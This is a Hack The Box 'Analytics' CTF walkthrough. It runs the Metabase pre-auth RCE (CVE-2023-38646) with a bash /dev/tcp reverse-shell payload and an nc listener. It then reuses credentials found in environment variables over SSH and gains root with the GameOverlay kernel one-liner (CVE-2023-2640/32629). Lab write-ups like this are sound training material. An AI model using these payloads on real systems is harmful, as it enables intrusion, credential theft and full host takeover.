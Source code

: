 # 💎 HTB: Analytics

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Phase 1: Scanning & Enumeration

```bash
ping <Analytics IP Address>                              # Confirm host is live (TTL hints Linux OS)
sudo nmap -T4 -A -p- <Analytics IP Address>              # Aggressive full-port scan
nano /etc/hosts                                          # Add domain mapping to access site
# Example entry:
# <Analytics IP Address> analytical.htb data.analytical.htb
```

> Discovered Metabase login at `http://data.analytical.htb`.

---

## 🚪 Phase 2: Exploitation & User Flag

### 🔍 Recon & CVE Identification

**CVE Used:** [CVE-2023-38646 - Metabase Pre-Auth RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token by visiting:
http://data.analytical.htb/api/session/properties
```

### 📡 Reverse Shell Setup

```bash
sudo nc -nlvp 4444                                      # Start listener on attacker machine

# Run exploit (Python PoC):
python3 main.py -u http://data.analytical.htb -t <token> -c "bash -i >& /dev/tcp/<Your IP>/4444 0>&1"
```

> Gained reverse shell as `metabase`.

### 🔑 [Horizontal Privilege Escalation](SSH)

```bash
env                                                    # Check for credentials in environment variables
ssh metalytics@<Analytics IP Address>                  # SSH into 'metalytics' using found creds
```

### 🧾 User Flag

```bash
cat /home/metalytics/user.txt
```

> Submit the user flag!

---

## 🛠️ Phase 3: Persistence & Root Flag

### 🔍 Manual Enumeration

```bash
id                                                     # Check privileges
mkdir /opt/utkarshcodes                                # Check write access to /opt (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null   # SUID/GUID files
cat /proc/version                                      # Get OS version to identify kernel-level exploits
```

> Identified vulnerable kernel version: Ubuntu 22.04.2

### 💣 Exploitation

**CVE Used:**  
- [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)  
- [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
# Execute GameOverlay exploit (one-liner):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> Root shell achieved via kernel exploit.

### 🔐 Root Flag

```bash
cat /root/root.txt
```